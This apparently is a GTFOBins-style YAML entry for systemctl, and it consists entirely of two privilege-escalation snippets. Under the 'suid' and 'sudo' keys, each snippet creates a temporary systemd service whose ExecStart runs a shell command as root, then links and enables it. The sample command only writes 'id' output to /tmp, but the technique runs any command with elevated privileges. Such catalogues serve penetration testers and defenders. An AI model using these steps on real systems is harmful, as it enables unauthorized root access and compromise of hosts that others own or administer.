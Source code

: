 ```yaml
---
functions:
  suid:
    - code: |
        TF=$(mktemp).service
        echo '[Service]
          Type=oneshot
          ExecStart=/bin/sh -c "id > /tmp/output"
          [Install]
          WantedBy=multi-user.target' > $TF
        ./systemctl link $TF
        ./systemctl enable --now $TF
  sudo:
    - code: |
        TF=$(mktemp).service
        echo '[Service]
          Type=oneshot
          ExecStart=/bin/sh -c "id > /tmp/output"
          [Install]
          WantedBy=multi-user.target' > $TF
        sudo systemctl link $TF
        sudo systemctl enable --now $TF
---
```

